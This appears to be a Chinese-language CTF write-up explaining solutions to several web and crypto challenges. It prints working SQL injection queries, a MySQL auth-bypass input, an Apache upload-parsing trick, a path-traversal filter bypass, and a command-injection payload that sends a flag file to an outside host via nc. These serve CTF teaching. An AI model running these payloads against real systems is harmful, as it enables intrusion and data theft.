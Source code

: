 # BreakAll-CTF

有些misc的script隨便寫寫，解完就忘記丟哪了，所以沒放上來

如果有找到會再補上

## EasyPeasy

單純的Union Based MySQL Injection

`id = 1 and 1 = 2 union select 1, 2, 3`

`id = 1 and 1 = 2 union select 1, 2, group_concat(schema_name) from information_schema.schemata`

`id = 1 and 1 = 2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='fl4g'`

`id = 1 and 1 = 2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='secret'`

`id = 1 and 1 = 2 union select 1, 2, THIS_IS_FLAG_YO from fl4g.secret`


## EasyPeasy2

只是把回顯關掉

但是有True / False

所以可以用Boolean Based SQL Injection

比較意外的是這題其實可以用SQLmap，但解出來的人居然不多XD


## four-char-inj 

這題的話其實就是考MySQL的觀念

MySQL有點weak type的味道

所以`/?user='|0%23`就能過了，pass用不到

因為`'字串' | 0` 會變成0，所以整句變成`WHERE username=0`

所以假設DB中的username是`admin`，那這個條件就會成立 (類似PHP)

另外這題解答不唯一

還可以`/?user='=0%23`, `/?user='^0%23`等


## sh3ll_upload3r

這題就很單純，能上傳的內容基本上不能變，也繞不過

但他有擋副檔名，不能出現`h`

所以其實就是要考Apache解析漏洞

上傳`shell.php.abc`

再去訪問`/upload/shell.php.abc`就會跑這隻腳本惹


## youtube_viewer

這題居然沒人解XDDD

這題是某場CTF的題目改編的


因為沒有Source Code，也沒有回顯

加上題目說後端會去下載/查看youtube image

所以可以猜測可能背後是用curl或wget之類的command

(一般人很容易往XSS, SQLinj, SSRF...等方向想，但都不會想到可能是Command Injection XD)

他還提示我們多踹一些Payload，所以可以猜測應該不是常見的情境

試試常用的幾個：`&& sleep 10`, `| sleep 10`, ... 都無法

最後試: `';sleep 10;'`

OK，成功了

所以猜測他背後應該是長這樣：`system("curl 'https://youtube.com/xxxx/'".$myinput."'")`

但沒有回險，所以我們要把資料傳出來

可以這樣：`';cat /flag | base64 | nc ctf.kaibro.tw 5566`

## easy_lfi

這題會把`../`砍掉

所以只要改用`....//`，就會被取代成原本的`../`

`....//....//....//....//....//....//....//flag`

## git leak

就跟題目名字一樣

單純的git還原

就看得到FLAG惹XD


## RSA 後門 (1)

題目給了`d^2*e + 7phi`

又知`c = m^e`

所以`c^(d^2*e+7phi)%n = m^(d^2*e^2+7*phi*e)%n = m`

---

